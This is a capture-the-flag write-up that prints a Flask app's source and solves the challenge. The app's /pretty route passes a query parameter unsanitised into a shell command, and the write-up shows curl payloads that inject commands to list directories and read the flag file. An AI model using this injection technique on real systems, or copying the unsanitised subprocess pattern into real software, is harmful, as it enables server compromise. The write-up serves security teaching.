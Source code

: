 ```yaml
---
layout: writeup
title: Induction Therapy
tags: WebX
---
```


## Description

The citizens of Freedonia are preparing for an upcoming national vote - but before they can make their voices heard, they’ll need to get informed. This challenge drops participants into a voter education web portal where all candidates, policies, and debates are presented for review. Only time will tell who'll you vote for soon...

http://redac.ted:9001/

We were also then given the source code

## Solution

Here is the app.py for this challenge:

```python
from flask import Flask, request, render_template  # update import
import subprocess

app = Flask(__name__)

# Gotta serve something to the public, right?
@app.route("/")
def index():
    return render_template("index.html")

@app.route('/candidates')
def candidates():
    return render_template('candidates.html')

@app.route('/policies')
def policies():
    return render_template('policies.html')

@app.route('/debate')
def debate():
    return render_template('debate.html')

@app.route("/pretty")
def pretty():
    fmt = request.args.get("format", "")
    try:
        result = subprocess.check_output(f"date +'{fmt}'", shell=True, stderr=subprocess.STDOUT, timeout=2)
        return f"{result.decode()}"
    except subprocess.CalledProcessError as e:
        return f"Error: {e.output.decode()}", 400
    except Exception as e:
        return f"{str(e)}", 500

@app.route("/subscribe", methods=["POST"])
def subscribe():
    email = request.form.get("email", "")
    print(f"Received subscription request from: {email}")
    return "Subscribed", 200

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=9001)
```

A promosing line in here is:

```python
# ...
@app.route("/pretty")
def pretty():
	fmt = request.args.get("format", "")
	try:
		result = subprocess.check_output(f"date +'{fmt}'", shell=True, stderr=subprocess.STDOUT, timeout=2)
# ...
```

For those who don't know, `subprocess` is used to execute code in the shell, and they use no sanitisation when getting client input and using it in a code execution. So we can put any code in a query at `/pretty` and therefore execute any code we want as long as the command takes less then 2 seconds to execute. Lets test this.

```bash
$ curl "http://re.da.ct.ed:9001/pretty?format=';ls;:'"

"<sfi000024v576754>
"<sfi000025v576754>
"<sfi000032v294427>
"<sfi000033v294427>
app.py
templates
```

Let's break down that payload: `';ls;:'` This creates the full command `date + '';ls;:''`

The first first apostrophe is used to escape the already existanct apostropher, the semi colon is used to exeucte another command, and then to escape the last apostrophe gained from the `'{fmt}'`

The colon is used becuase `:''` does nothing, and as such removes the error message having a `''` would cause. So by just putting out command in between `';` and `;:'` we can execute whatever command we want.

Time to find the flag

```bash
$ curl "http://re.da.ct.ed:9001/pretty?format=';ls%20/;:'"

app
bin
boot
dev
etc
flag.txt
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```

And there is the flag in the filesystem root directory `/` time to cat it

```bash
$ curl "http://re.da.ct.ed:9001/pretty?format=';cat%20/flag.txt;:'"

secedu{th3re_is_4lways_a_t1me_&_plac3_to_bre4k_0u7}
```

Finally we have the flag: `secedu{th3re_is_4lways_a_t1me_&_plac3_to_bre4k_0u7}`
